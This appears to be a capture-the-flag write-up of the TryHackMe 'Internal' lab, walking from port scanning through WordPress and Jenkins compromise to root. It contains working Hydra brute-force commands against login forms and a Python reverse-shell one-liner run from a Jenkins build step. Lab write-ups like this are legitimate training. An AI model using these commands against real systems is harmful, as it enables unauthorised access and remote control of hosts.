

# Internal - Writeup

**Date**: 10/04/2022

**Difficulty**: Hard

**CTF**: [https://tryhackme.com/room/internal](https://tryhackme.com/room/internal)

---

**Scope of Work**

The client requests that an engineer conducts an external, web app, and internal assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

- User.txt
- Root.txt

Additionally, the client has provided the following scope allowances:

- Ensure that you modify your hosts file to reflect internal.thm
- Any tools or techniques are permitted in this engagement
- Locate and note all vulnerabilities found
- Submit the flags discovered to the dashboard
- Only the IP address assigned to your machine is in scope

(Roleplay off)

I encourage you to approach this challenge as an actual penetration test. Consider writing a report, to include an executive summary, vulnerability and exploitation assessment, and remediation suggestions, as this will benefit you in preparation for the eLearnsecurity eCPPT or career as a penetration tester in the field.

Note - this room can be completed without Metasploit

# User Flag

First of all let’s do what this line in the scope allowances says:

> • Ensure that you modify your hosts file to reflect internal.thm
> 



Now, let’s scart with a quick nmap scan:


nmap discovered 2 tco open ports: 22 (ssh) and 80 (http), let’s try to extract more details:


So, we have a OpenSSH 7.6p1 and an Apache httpd 2.4.29.

Let’s check the webpage:


It looks like a default webpage of apache installation. Let’s do a directory enumeration using gobuster:


While it ends, let’s see if the ssh version or the apache version has any vulnerability we can exploit:

Aparently, there are a vulnerability present in the target OpenSSH version that could allow us to do username enumeration ([2018-15473](https://nvd.nist.gov/vuln/detail/CVE-2018-15473)):


There are 2 exploits available in exploit-db: [https://www.exploit-db.com/exploits/45233](https://www.exploit-db.com/exploits/45233) & [https://www.exploit-db.com/exploits/45233](https://www.exploit-db.com/exploits/45233)

And, for the apache version I didn’t find anything exploitable.

Back to the gobuster enumeration:


It discovered 2 directories that we have access to (/blog & /phpmyadmin) and other two that we have no access to (/javascript & server-status). Let’s check the first ones:

### /blog


The /blog directory contains a wordpress blog.

Let’s see what Wappalizzer detects:


It’s using the Wordpress version 5.4.2. There will be any vulnerability in this version we can take advance of?

After a bit of research, I didn’t find anything useful... but as long it is a wordpress, it should have a login form:


The default username in wordpress is admin, let’s try with the credentials admin:password


An error appears saying that the password we entered for the user admin is not correct. That should mean that the username is correct, isn’t it? Just to be sure let’s try to login with a random username and password:


This time we got a different error, so admin is valid username. After trying a bunch of common passwords manually, I decided to perform an automatic dictionary attack using hydra.

I’ll catch a login petition with Burpsuite, as I think that it’s the easiest way to see the parameters sent and the request type:


we can see it is a POST request and the last line are the parameters sent in that request. Now let’s build the Hydra command:

```jsx
hydra -l admin -P /usr/share/wordlists/rockyou.txt http://internal.thm http-post-form "/blog/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Finternal.thm%2Fblog%2Fwp-admin%2F&testcookie=1:F=Error" -V
```


While it completes, let’s look at the other directory we found earlier:

### /phpmyadmin


Here we can see a login page of phpMyAdmin. Nothing indicates the version, so let’s see if we can log in using default credentials root:bitnami


Nope.

Meanwhile, Hydra discovered a valid password!


So, let’s try to log in into wp-admin:


Yeah, we are in.

Just to check, let’s see if these credentials are also valid for ssh connection or phpmyadmin panel:


Nope, let’s go back to the wordpress administration site:

There is nothing really interesting inside the wordpress administration site, but we can modify a Wordpress Plugin to gain a reverse shell as we did in Mr. Robot CTF.


Arg, it doesn’t allow us to modify the plugin as it has been marked as not writable. Can we upload a new one?


Ouch. What about to edit the template?


Nice, let’s see of it works:


Yeah, we got a connection!


We have no permissions to cd into aubreanna home folder. Looks like it’s time to try to escalate privileges:

First of all, I’m going to stabilize the shell using python:


Ok, now let’s see what can I do with www-data user... First, let’s check /etc/passwd and /etc/shadow files:


We have no permissions to cat /etc/shadow


There are no cronjobs running that we can take advantage of. Let’s see the SUID binaries available:


None of them appear to be useful to do privilege escalation... Let’s check the binaries with capabilities activated:


Nothing useful. Let’s check the info of the system:


It looks like the 4.15.x versions of linux had a vulnerability that allows a privilege escalation, but there are no “validated” exploits to do it... so, before trying them, I will do a enumeration with LinPEAS. To do so, let’s find a directory where we can download the linPEAS script. /tmp folder could be an option:


There are 3 files there, I’ll pass them to my local machine to check them:


They look like normal images? If I don’t find anything else, I will come back and check them in detail.


linPEAS did its job and found some interesting data:


Let’s see if we can login in phpMyAdmin with these credentials:


Yeah! Now we can see that the version of phpMyAdmin is 4.6.6deb5. 

I spent some time by looking at the tables using phpMyAdmin and also conneting through sqlclient, but apparently we cannot do anything here...

Ok, let’s go back, I have no clue of what to do, let’s review the wordpress admin site.


Yeah, I have not seen that post before:


There is no user called william in the target machine. Anyway I’ll try to login via ssh using these credentials:


No, as expected. Maybe in the phpmyadmin or wordpress admin site?


No.

Okay, I had to take a look to the official writeup because I was completely lost. I had to go to /opt folder of the target machine. Let’s go:


So, this way we found the credential of aubreanna... let’s try to change to that user:


We got logged as aubreanna and quickly we discover the user flag.

# Root.txt Flag

Now, let’s do all the steps we did earlier to try to do a privilege escalation in order to get root.


No sudo permissions. Crontab, SUID binaries and Capabilities should be the same.


This user cannot read shadow file either.


There is a jenkins service running on 172.17.0.2:8080

It would be possible to establish a ssh tunnel to that url in order to see that webpage in our machine?


yeah! Now we have to guess the user and password... Let’s try with the credentials we know first:


Nothing, every login throws error...


But I have no find any jenkins file.


Can I just add any user?


apparently it didn’t work.


There is any exploit to the Jenkins 2.25 version?

Apparently no. The default user seems to be admin, we can perform an hydra attack to check if we can bruteforce the password:


```jsx
hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost -s 8080 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:F=Invalid" -V
```


And it has found a valid password! Let’s log in:


We can try to obtain a Reverse Shell by creating a new project:


And adding build steps in the Build Environment that will execute shell commands. I’m going to test it with a simple whoami command:


We have to build the project, and after that we can check the console output of the build:


So, once we have seen that it works, let’s try to obtain a reverse shell by executing this commands:

```jsx
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


Before building the project, let’s open a netcat listener in the configured port, after that we have to build the project:


And we got a reverse shell!


Let’s begin with the enumeration. We already know the jenkins admin password, so it doesn’t make sense to try to decrypt the secrets of jenkins, right?

<aside>
💡 It’s important to notice that we are not in the “same” machine as we were before. The jenkins server is running in a docker, that act’s as we were in other machine in the same network of the initial one.

</aside>

Let’s go to the /opt folder, as we do in the first machine to see if there is something there...


Yeah, it is. A note with the root credentials of the target machine, let’s try them!


Yeah, it worked!


And inside the /root folder we found the root flag.